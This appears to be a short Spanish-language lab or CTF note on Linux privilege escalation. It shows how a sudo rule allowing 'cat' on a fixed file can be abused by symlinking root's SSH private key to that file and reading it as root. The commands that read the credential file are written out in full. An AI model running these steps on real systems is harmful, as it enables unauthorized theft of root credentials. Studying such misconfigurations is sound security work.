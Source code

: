 Usuario puede ejecutar esto con sudo
```
(ALL : ALL) NOPASSWD: /usr/bin/cat /home/test/.invisible 
```

Realiza un symlink de la id_rsa de root a ese archivo
```
ln -s /root/.ssh/id_rsa /home/test/.invisible
```

Ejecuta como root el comando especificado en sudo y observa la id_rsa
```
sudo -u root /usr/bin/cat /home/test/.invisible
```